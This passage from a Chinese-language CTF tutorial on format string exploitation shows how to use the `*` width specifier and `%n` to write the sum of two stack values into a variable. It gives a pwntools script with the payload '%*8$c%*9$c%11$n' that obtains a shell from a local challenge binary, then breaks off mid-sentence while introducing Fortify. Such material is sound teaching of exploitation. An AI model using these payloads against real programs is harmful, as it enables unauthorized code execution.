 在以上示例中，猜测两个数的和，猜对后得到 shell。不考虑爆破的情况，虽然格式化字符串可以泄露这两个数的值，但是输入是在泄露前，泄露后已经无法修改猜测的值，所以需要直接向 num 中填入 a 与 b 的值。此时需要用到占位符 `*`。

在 `printf(buf)` 处设置断点，a、b 两个数在第 8、9 个参数位置（f恩别为 0x1b2d、0xc8e3）， num_ptr 在第 11 个参数位置。a、b 两个数作为两个输出宽度，输出的字符就是 a、b 之和，再用 `%n` 写入 num 中，即可达到 num==a+b 的效果。

![image-20230509101438266](images/image-20230509101438266.png)

利用脚本如下：

```python
from pwn import *
payload = "%*8$c%*9$c%11$n"
p=process("./fsb3")
p.recvuntil("name")
p.sendline(payload)
p.recvuntil("gift")
p.sendline("1")
p.interactive()
```

### 5.6 总结

格式化字符串利用的本质是任意地址的读写。

有时候程序会开启 Fortify 保护机制，这样程序在编译时，所有的 `printf()` 都会被 `__printf_chk()` 替换。两者之间的区别如下：
